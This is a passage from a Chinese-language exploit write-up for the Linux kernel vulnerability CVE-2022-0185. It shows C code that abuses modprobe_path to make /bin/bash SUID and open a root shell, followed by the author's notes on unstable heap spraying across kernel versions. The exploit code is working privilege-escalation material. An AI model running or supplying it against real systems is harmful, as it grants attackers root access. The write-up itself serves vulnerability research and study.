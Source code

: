 ```c
char *modprobe_trigger = "/tmp/root";
void modprobe_init() {
  int fd = open(modprobe_trigger, O_RDWR | O_CREAT);
  char root[] = "\xff\xff\xff\xff";
  write(fd, root, sizeof(root));
  close(fd);
  chmod(modprobe_trigger, 0777);
  [ ... ]
}
void modprobe_hax() {
  puts("[*] Attempting to trigger modprobe");
  execve(modprobe_trigger, NULL, NULL);
}
To finish up, we repeatedly attempt to trigger the overwrite and trigger modprobe_path. We can verify if it has succeeded by checking the permissions on /bin/bash:
while (1) {
  do_win();
  modprobe_hax();
  struct stat check;
  // Get permissions on file
  stat(SHELL, &check);
  if (check.st_mode & S_ISUID) {
    break;
  }
}
puts("[*] Exploit success! " SHELL " is SUID now!");
puts("[+] Popping shell");
execve(SHELL, root_argv, NULL);
```

**问题**：原作者的测试环境是Ubuntu-20.04，但在我编译的环境中（版本v5.16.1），堆喷非常不稳定，需要改善堆喷策略。我沿用了 CVE-2021-42008的策略还是不行，不能确保漏洞对象的后面跟着一个 kmalloc-4096 的 `msg_msg` ，发现 `msg_msg` 和漏洞对象总是位于不同的cache，很奇怪。希望有大佬能弄清为什么，玄学！

换了个版本 v5.11.22，偶然成功了一次（成功赋予了busybox  s权限），调试后发现 `msg_msg` 和漏洞对象可以位于同一cache：

![1-succeed-5-11-22](/images/posts/CVE-2022-0185/1-succeed-5-11-22.png)
